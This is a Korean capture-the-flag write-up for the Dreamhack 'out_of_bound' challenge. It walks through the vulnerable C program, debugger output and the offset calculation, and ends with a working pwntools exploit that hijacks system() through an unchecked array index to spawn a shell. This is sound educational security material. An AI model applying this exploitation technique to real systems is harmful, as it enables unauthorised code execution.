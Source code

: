 # [Dreamhack] out_of_bound 풀이

---

# C 코드

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>
#include <string.h>

char name[16];

char *command[10] = { "cat",
    "ls",
    "id",
    "ps",
    "file ./oob" };
void alarm_handler() {

    puts("TIME OUT");
    exit(-1);
}

void initialize() {

    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

int main() {
    
    int idx;

    initialize();

    printf("Admin name: ");
    read(0, name, sizeof(name));
    printf("What do you want?: ");

    scanf("%d", &idx);

    system(command[idx]);

    return 0;
}
```

전역 변수로 char형 변수 name[16]이랑 포인터인 command를 선언한다.

메인 함수를 보면 첫번째로 name에 Admin name을 입력받는다.

그리고 숫자를 입력받고 포인터 배열에 있는 커맨드를 불러와서 system 명령어로 실행시킨다.

scanf에서 idx를 입력받고 sysyem함수에서 command를 불러올때 idx값이 배열의 크기를 넘는지 검사하는 부분이 없기때문에 out of bound 취약점이 발생하는것을 알 수 있다.

name에 “/bin/sh”을 입력하고 idx에 스택에 변수 name이 몇 번째에 있는지 입력해주면 해결될꺼같다.

---

# 파일 분석

우리가 디버깅을 하면서 알아내야 하는 정보를 정리해보자

- Admin name의 위치와 command 배열의 오프셋
- name에서 입력할때 저장되는 주소

디버깅은 peda를 사용했습니다.

### Admin name의 위치와 command 배열의 오프셋구하기

---

Admin name을 입력받는곳에서 aaaa를 입력한 상태이다 .

```nasm
[----------------------------------registers-----------------------------------]
EAX: 0x5 
EBX: 0xf7f9e000 --> 0x229dac 
ECX: 0x804a0ac ("aaaa\n")
EDX: 0x10 
ESI: 0xffffcfb4 --> 0xffffd191 ("/home/zergsung/pwn/dreamhack/out_of_baound/out_of_bound")
EDI: 0xf7ffcb80 --> 0x0 
EBP: 0xffffcee8 --> 0xf7ffd020 --> 0xf7ffda40 --> 0x0 
ESP: 0xffffcec0 --> 0x0 
EIP: 0x804870d (<main+66>:	add    esp,0x10)
EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x8048701 <main+54>:	push   0x804a0ac
   0x8048706 <main+59>:	push   0x0
   0x8048708 <main+61>:	call   0x80484a0 <read@plt>
=> 0x804870d <main+66>:	add    esp,0x10
   0x8048710 <main+69>:	sub    esp,0xc
   0x8048713 <main+72>:	push   0x804881e
   0x8048718 <main+77>:	call   0x80484b0 <printf@plt>
   0x804871d <main+82>:	add    esp,0x10
[------------------------------------stack-------------------------------------]
0000| 0xffffcec0 --> 0x0 
0004| 0xffffcec4 --> 0x804a0ac ("aaaa\n")
0008| 0xffffcec8 --> 0x10 
0012| 0xffffcecc --> 0x80486ec (<main+33>:	sub    esp,0xc)
0016| 0xffffced0 --> 0xffffcf10 --> 0xf7f9e000 --> 0x229dac 
0020| 0xffffced4 --> 0xf7fbe66c --> 0xf7ffdba0 --> 0xf7fbe780 --> 0xf7ffda40 --> 0x0 
0024| 0xffffced8 --> 0xf7fbeb20 --> 0xf7d8ecc6 ("GLIBC_PRIVATE")
0028| 0xffffcedc --> 0xe4b24e00 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x0804870d in main ()
```

ECX를 보면 0x804a0ac에 aaaa가 저장되는것을 알 수 있다. 

```nasm
main 함수
0x080486cb <+0>:	lea    ecx,[esp+0x4]
0x080486cf <+4>:	and    esp,0xfffffff0
0x080486d2 <+7>:	push   DWORD PTR [ecx-0x4]
0x080486d5 <+10>:	push   ebp
0x080486d6 <+11>:	mov    ebp,esp
0x080486d8 <+13>:	push   ecx
0x080486d9 <+14>:	sub    esp,0x14
0x080486dc <+17>:	mov    eax,gs:0x14
0x080486e2 <+23>:	mov    DWORD PTR [ebp-0xc],eax
0x080486e5 <+26>:	xor    eax,eax
0x080486e7 <+28>:	call   0x804867b <initialize>
0x080486ec <+33>:	sub    esp,0xc
0x080486ef <+36>:	push   0x8048811
0x080486f4 <+41>:	call   0x80484b0 <printf@plt>
0x080486f9 <+46>:	add    esp,0x10
0x080486fc <+49>:	sub    esp,0x4
0x080486ff <+52>:	push   0x10
0x08048701 <+54>:	push   0x804a0ac
0x08048706 <+59>:	push   0x0
0x08048708 <+61>:	call   0x80484a0 <read@plt>
0x0804870d <+66>:	add    esp,0x10
0x08048710 <+69>:	sub    esp,0xc
0x08048713 <+72>:	push   0x804881e
0x08048718 <+77>:	call   0x80484b0 <printf@plt>
0x0804871d <+82>:	add    esp,0x10
0x08048720 <+85>:	sub    esp,0x8
0x08048723 <+88>:	lea    eax,[ebp-0x10]
0x08048726 <+91>:	push   eax
0x08048727 <+92>:	push   0x8048832
0x0804872c <+97>:	call   0x8048540 <__isoc99_scanf@plt>
0x08048731 <+102>:	add    esp,0x10
0x08048734 <+105>:	mov    eax,DWORD PTR [ebp-0x10]
0x08048737 <+108>:	mov    eax,DWORD PTR [eax*4+0x804a060]
0x0804873e <+115>:	sub    esp,0xc
0x08048741 <+118>:	push   eax
0x08048742 <+119>:	call   0x8048500 <system@plt>
0x08048747 <+124>:	add    esp,0x10
0x0804874a <+127>:	mov    eax,0x0
0x0804874f <+132>:	mov    edx,DWORD PTR [ebp-0xc]
0x08048752 <+135>:	xor    edx,DWORD PTR gs:0x14
0x08048759 <+142>:	je     0x8048760 <main+149>
0x0804875b <+144>:	call   0x80484e0 <__stack_chk_fail@plt>
0x08048760 <+149>:	mov    ecx,DWORD PTR [ebp-0x4]
0x08048763 <+152>:	leave  
0x08048764 <+153>:	lea    esp,[ecx-0x4]
0x08048767 <+156>:	ret    
End of assembler dump.
```

위에 main함수의 108번째줄을 보면 0x804a060에서 가져오는것을 볼수있다.

그럼 (0x804a0ac - 0x804a060)/4 를 해주면 오프셋을 구할 수 있다. 4를 나눠주는이유는 포인터 배열이 하나당 4바이트를 할당하기 때문이다. 

계산해보면 19가 나온다.

### name에 쉘코드 삽입하기

---

c언어 코드를 보면 command 배열이 포인터로 선언되는것을 알수있다. 그렇기 때문에 Admin name에 바로 쉘코드를 삽입하면 그 쉘코드가 16진수로 바뀐주소에 있는값을 가져오기 때문에 오류가 난다. 그렇기 때문에 우리는 먼저 쉘코드가 있을 주소 4바이트를 입력한후 그 주소에 쉘코드를 써주면 된다.

그렇기에 쉘코드는 name의 주소에 name의 주소값을 더한 4바이트 큰 name + 4 에 위치하게 된다. 

그럼 우린입력할때 name주소+4다음 쉘코드를 입력하면 될것이다.

이제 모든 정보를 얻었으니 익스플로잇 코드를 짜보자.

---

# Exploit

```python
from pwn import *

#p = remote("host3.dreamhack.games", 9469)
p = process("./oob")

shell = b"/bin/sh"
name = 0x804a0ac

p.recvuntil(b'name:')

payload = p32(name+4) + shell

p.sendline(payload)
p.recvuntil(b'want?:')
p.sendline(b'19')
p.interactive()
```

![Untitled](../%5BDreamhack%5D%20out_of_bound%20%E1%84%91%E1%85%AE%E1%86%AF%E1%84%8B%E1%85%B5/Untitled.png)

쉘이 따진 걸 볼 수 있다.
